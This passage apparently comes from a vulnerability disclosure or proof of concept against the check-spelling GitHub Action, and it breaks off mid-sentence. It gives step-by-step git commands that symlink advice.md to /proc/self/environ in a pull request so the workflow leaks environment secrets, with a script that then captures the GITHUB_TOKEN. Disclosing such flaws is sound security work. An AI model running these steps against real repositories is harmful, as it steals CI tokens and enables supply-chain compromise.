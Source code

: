 Within the context of the checked out fork of the victim repo, switch back to the main branch and then create a fresh attack branch.

```plain
gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git checkout main
Switched to branch 'main'
Your branch is up to date with 'origin/main'.

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git checkout -b attack
Switched to a new branch 'attack'
```

Create a file that contains a misspelling, and which symlinks `advice.md` to `/proc/self/environ`:

```plain
gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % echo 'Helllo world!' > notice.txt

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % rm .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % ln -s /proc/self/environ .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git add notice.txt .github/actions/spelling/advice.md

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git commit -m "My contribution"
[attack b00673f] My contribution
 2 files changed, 2 insertions(+), 27 deletions(-)
 rewrite .github/actions/spelling/advice.md (100%)
 mode change 100644 => 120000
 create mode 100644 notice.txt

gleeful@localhost /tmp/tmp.3TqvdtNdiJ/spellchecked % git push -u origin attack
Enumerating objects: 12, done.
Counting objects: 100% (12/12), done.
Delta compression using up to 8 threads
Compressing objects: 100% (4/4), done.
Writing objects: 100% (7/7), 524 bytes | 524.00 KiB/s, done.
Total 7 (delta 1), reused 0 (delta 0), pack-reused 0
remote: Resolving deltas: 100% (1/1), completed with 1 local object.
remote:
remote: Create a pull request for 'attack' on GitHub by visiting:
remote:      https://github.com/gleefulatlantis/spellchecked/pull/new/attack
remote:
To github.com:gleefulatlantis/spellchecked.git
 * [new branch]      attack -> attack
Branch 'attack' set up to track remote branch 'attack' from 'origin'.
```
Browse to the provided URL to create a new Pull Request.

Upon receiving the Pull Request, the repo will invoke the `check-spelling` workflow.

Once the `check-spelling` workflow has completed, and has posted a comment to the Pull Request containing the details of the spelling error, note that the `race_githubtoken.py` script has found a `GITHUB_TOKEN` value within it and has used it to:
